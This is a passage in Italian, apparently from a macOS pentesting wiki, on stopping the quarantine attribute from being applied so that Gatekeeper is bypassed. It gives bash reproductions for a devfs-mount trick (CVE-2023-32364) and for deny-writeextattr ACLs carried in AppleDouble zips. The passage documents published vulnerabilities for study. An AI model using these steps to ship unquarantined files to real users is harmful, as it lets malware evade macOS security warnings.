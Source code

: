 Un **devfs** mount **non supporta xattr**, maggiori informazioni in [**CVE-2023-32364**](https://gergelykalman.com/CVE-2023-32364-a-macOS-sandbox-escape-by-mounting.html)
```bash
mkdir /tmp/mnt
mount_devfs -o noowners none "/tmp/mnt"
chmod 777 /tmp/mnt
mkdir /tmp/mnt/lol
xattr -w com.apple.quarantine "" /tmp/mnt/lol
xattr: [Errno 1] Operation not permitted: '/tmp/mnt/lol'
```
### writeextattr ACL

Questo ACL impedisce di aggiungere `xattrs` al file
```bash
rm -rf /tmp/test*
echo test >/tmp/test
chmod +a "everyone deny write,writeattr,writeextattr,writesecurity,chown" /tmp/test
ls -le /tmp/test
ditto -c -k test test.zip
# Download the zip from the browser and decompress it, the file should be without a quarantine xattr

cd /tmp
echo y | rm test

# Decompress it with ditto
ditto -x -k --rsrc test.zip .
ls -le /tmp/test

# Decompress it with open (if sandboxed decompressed files go to the Downloads folder)
open test.zip
sleep 1
ls -le /tmp/test
```
### **com.apple.acl.text xattr + AppleDouble**

Il formato di file **AppleDouble** copia un file inclusi i suoi ACE.

Nel [**codice sorgente**](https://opensource.apple.com/source/Libc/Libc-391/darwin/copyfile.c.auto.html) è possibile vedere che la rappresentazione testuale dell'ACL memorizzata all'interno dell'xattr chiamato **`com.apple.acl.text`** verrà impostata come ACL nel file decompresso. Quindi, se hai compresso un'applicazione in un file zip con formato di file **AppleDouble** con un ACL che impedisce ad altri xattr di essere scritti... l'xattr di quarantena non è stato impostato nell'applicazione:

Controlla il [**rapporto originale**](https://www.microsoft.com/en-us/security/blog/2022/12/19/gatekeepers-achilles-heel-unearthing-a-macos-vulnerability/) per ulteriori informazioni.

Per replicare questo, dobbiamo prima ottenere la stringa acl corretta:
```bash
# Everything will be happening here
mkdir /tmp/temp_xattrs
cd /tmp/temp_xattrs

# Create a folder and a file with the acls and xattr
mkdir del
mkdir del/test_fold
echo test > del/test_fold/test_file
chmod +a "everyone deny write,writeattr,writeextattr,writesecurity,chown" del/test_fold
chmod +a "everyone deny write,writeattr,writeextattr,writesecurity,chown" del/test_fold/test_file
ditto -c -k del test.zip

# uncomporess to get it back
ditto -x -k --rsrc test.zip .
ls -le test
```
(Note che anche se questo funziona, la sandbox scrive l'attributo xattr di quarantena prima)